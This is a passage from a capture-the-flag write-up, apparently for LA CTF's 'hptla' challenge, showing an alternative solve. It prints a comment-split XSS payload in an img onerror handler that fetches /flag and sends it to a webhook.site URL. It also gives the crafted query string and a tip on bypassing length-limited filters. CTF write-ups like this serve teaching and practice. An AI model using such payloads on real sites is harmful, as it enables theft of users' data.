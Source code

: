 ## Addendum

In case it is interesting, during the CTF, I actually solved this using a slightly different approach where I used up the first several blocks gaining access to `location.search.split("|")` and storing that into a variable `q`. I could then put really long strings (like the webook.site URL) into the query string of my URL and access them like `q[1]`. While this worked, it is pretty ugly.  The above solve is much cleaner.

For posterity, here's the ugly solve:

```
<img src='
'onerror='/*
*/q=/*
*/location/*
*/.search./*
*/split(/*
*/"|");f=/*
*/fetch;g=/*
*/f(q[1]);/*
*/t=q[2];h/*
*/=g[t](r/*
*/=>r[q[3]/*
*/]());h[t/*
*/](d=>{/*
*/location/*
*/.href=/*
*/q[4]+d/*
*/})'>
```

The URL was like this:

```
https://hptla.lac.tf/view.html?|/flag|then|text|https://webhook.site/d14effdc-ca5e-43ae-b2cb-727fddbbc870?flag=#4a9edf03-08e7-4f7b-859f-be062c8a606b
```

Which meant the following values for the `q` array:

```
q[1]=/flag
q[2]=then
q[3]=text
q[4]=https://webhook.site/d14effdc-ca5e-43ae-b2cb-727fddbbc870?flag=
```

The general idea of accessing some kind of external source for long strings is a useful notion to keep in mind. It can often help you bypass filters with length limits.